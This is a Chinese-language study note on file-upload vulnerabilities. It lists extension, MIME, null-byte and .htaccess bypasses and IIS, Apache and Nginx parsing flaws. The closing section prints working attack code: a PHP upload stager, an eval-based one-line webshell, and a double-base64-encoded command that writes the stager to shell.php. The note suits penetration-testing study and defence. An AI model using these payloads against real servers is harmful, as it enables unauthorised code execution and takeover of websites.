


## 文件上传漏洞

> 利用必要条件：
>
> 1. 上传动态文件或可以形成动态文件
> 2. 所在目录具有执行权限，上传的文件可执行
> 3. 能访问到上传的文件

### 检测流程


### 客户端检测绕过：

> 一般只检测后缀名

#### JavaScript检测

> 1. 事件检测：onchange onsubmit等事件触发检测函数
>
> > 删除相关函数或者事件
>
> 2. 抓包改包
>
>    > 先上传正常的后缀，之后再改包

#### `%00`截断上传

> 影响版本：5.2.x
>
> url解码后形成了0x00 被误以为是字符结束 ereg函数
>
> > post 传输的时候`%00`需要先url解码

#### APP检测

### 服务器检测绕过：

#### MIME类型绕过：

> 抓包改包即可修改mime文件

#### 文件内容检测

> 1. 检测文件头：
>
>    > 添加合法内容的文件头
>
> 2. 文件内容
>
>    > 图片木马

#### 文件后缀

> 多重文件后缀 e.g:`webshell.jpg.php`

### 编辑器漏洞

> 常见的编辑器

### .htaccess

> apache 特有的的配置文件
>
> 

### 中间间漏洞：

> #### IIS
>
> asp目录下的文件当做asp来执行
>
> 分号后面的不解析;.jpg
>
> #### Apache
>
> 从右边到左边执行解析，直到满足服务器执行的
>
> #### NGinx
>
> > 空格结尾
> >
> > 
> >
> > 00截断


> ***IIS/Nginx + PHP fastcgi***
>
> > 如果开启了`cgi.fic_pathinfo`,所执行的文件不存在，就会继续查找上一级的文件是否存在
> >
> > 例如：`index.php/id/2`
> >
> > 且未设置：`security_extensions`该选项限制可以执行的文件类型
>
> ***Nginx 文件名逻辑漏洞***
>
> > 上传一个以空格结尾的文件：`"abdcd.jpg "` 
> >
> > 正常情况下（关闭pathinfo的情况下），只有.php后缀的文件才会被发送给fastcgi解析。
> >
> > 
> >
> > 先上传正常文件，然后再在文件的后面加上
> >
> > 防御：
> >
> > > 升级Nginx
> > >
> > > 设置`security.limit_extensions = .php`
>
> ***Apache解析漏洞***
>
> > 如果再Apache的cof中配置如下：
> >
> > `AddHandler application/x-httpd-php .php`
> >
> > 则abcde.php.jpg也会被当做php去执行（因为配置要求直到找到可以被Apache解析的文件后缀才执行）
> >
> > 如果再`.htaccess`有如下配置，则可以将扩展名`.xxx`当做PHP执行
> >
> > `AddType application/x-httpd-php xxx`
>
> *** IIS5.x-6.0解析漏洞***
>
> > 1. 上传的文件名`abdc.asp:.jpg`
> >
> >    > 服务器默认不解析`:`后面的内容，所以文件被当做asp文件解析
> >
> > 2. 像`xxx.asp`目录下上传`abcde.jpg`
> >
> >    > 服务器会把目录下的文件都当做asp文件解析
>
> ***判断服务器类型***
>
> > 404提示信息
> >
> > 调试信息中`network`

### phpinfo与本地文件包含利用

> 

### 绕过tips：

>1. 把`php`后缀改为`phtml .phps php5 .pht .php3 php2`
>
> > 条件：`AddType application/x-httpd-php .php .phtml .phps .php5 .pht`
> >
> > 语法：AddType MIME-type extension [extension] ...
>
>2. `.htaccess`
>
> > 上传并构造:`AddType application/x-httpd-php .jpg`
> >
> > 生效的条件：`mod_rewrite`模式开启 `AllowOverride All`
>
>3. 大小写绕过
>
>4. 空格和点绕过
>
> > windows中不允许文件后缀有`.`和空格存在,e.g：`"1.php "`&`"2.php."`由于验证的是后缀 再写入文件系统，所以验证结束windows才去除空格和点
> >
> > 如果逻辑错误：可以尝试点和空格的组合
>
>5. `::$DATA`
>
> > php+windows的情况下：如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件
> >
> > payload:`xxx.php::$DATA`
>
>6. 替换为空格时候可以尝试双写绕过
>
> > payload:`pphphp`
>
>7. 00截断
>
> > move_uploaded_file函数的底层实现类似于C语言，遇到0x00会截断
> >
> > 条件：
>
>8. 解析漏洞
>
>   > #### IIS
>   >
>   > 1. 解析asp格式的时候
>   >
>   >    > 1. 像`xxx.asp`目录下上传`abcde.jpg`
>   >    >
>   >    > xxx目录下的所有的文件都会以asp格式解析
>   >    >
>   >    > 2. 文件名中含有`.asp`都会优先asp解析
>   >    > 3. 该版本 默认会将` *.asp;.jpg `此种格式的文件名， 当成Asp解析， 原理是 服务器默认不解析; 号及其后面的内容， 相当于截断  
>   >    > 4. PUT任意文件写入  
>   >
>   > #### Apache
>   >
>   > > `则abcde.php.jpg也会被当做php去执行（因为配置要求直到找到可以被Apache解析的文件后缀才执行）`
>   >
>   > #### nginx
>   >
>   > > 1. test.jpg  ，可以添加为test.jpg/x.php进行解析攻击加空格
>   > > 2. %00.php
>
> 

### 上传大马

> 先上传上传马
>
> ```php
> <?php
> @$temp = $_FILES['upload_file']['tmp_name'];
> @$file = basename($_FILES['upload_file']['name']);
> if (empty ($file)){
> echo "<form action = '' method = 'POST' ENCTYPE='multipart/form-data'>\n";echo "Local file: <input type = 'file' name = 'upload_file'>\n";echo "<input type = 'submit' value = 'Upload'>\n";echo "</form>\n<pre>\n\n</pre>";}else {if(move_uploaded_file($temp,$file)){echo "File uploaded successfully.<p>\n";}else {echo "Unable to upload " . $file . ".<p>\n";}}?>
> ```
>
> 原理：
>
> ```fputs(fopen(shell.php,w),xxxx);```
>
> ```<?php @eval($_POST['cmd']);?>```
>
> 对上传码二次base64编码
>
> ```php
> cmd=fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(base64_decode(UEQ5d2FIQWdEUXBBSkhSbGJYQWdQU0FrWDBaSlRFVlRXeWQxY0d4dllXUmZabWxzWlNkZFd5ZDBiWEJmYm1GdFpTZGRPdzBLUUNSbWFXeGxJRDBnWW1GelpXNWhiV1VvSkY5R1NVeEZVMXNuZFhCc2IyRmtYMlpwYkdVblhWc25ibUZ0WlNkZEtUc05DbWxtSUNobGJYQjBlU0FvSkdacGJHVXBLWHNOQ21WamFHOGdJanhtYjNKdElHRmpkR2x2YmlBOUlDY25JRzFsZEdodlpDQTlJQ2RRVDFOVUp5QkZUa05VV1ZCRlBTZHRkV3gwYVhCaGNuUXZabTl5YlMxa1lYUmhKejVjYmlJN1pXTm9ieUFpVEc5allXd2dabWxzWlRvZ1BHbHVjSFYwSUhSNWNHVWdQU0FuWm1sc1pTY2dibUZ0WlNBOUlDZDFjR3h2WVdSZlptbHNaU2MrWEc0aU8yVmphRzhnSWp4cGJuQjFkQ0IwZVhCbElEMGdKM04xWW0xcGRDY2dkbUZzZFdVZ1BTQW5WWEJzYjJGa0p6NWNiaUk3WldOb2J5QWlQQzltYjNKdFBseHVQSEJ5WlQ1Y2JseHVQQzl3Y21VK0lqdDlaV3h6WlNCN2FXWW9iVzkyWlY5MWNHeHZZV1JsWkY5bWFXeGxLQ1IwWlcxd0xDUm1hV3hsS1NsN1pXTm9ieUFpUm1sc1pTQjFjR3h2WVdSbFpDQnpkV05qWlhOelpuVnNiSGt1UEhBK1hHNGlPMzFsYkhObElIdGxZMmh2SUNKVmJtRmliR1VnZEc4Z2RYQnNiMkZrSUNJZ0xpQWtabWxzWlNBdUlDSXVQSEErWEc0aU8zMTlQejQ9)));
> ```
>
> 上传大马
>
> 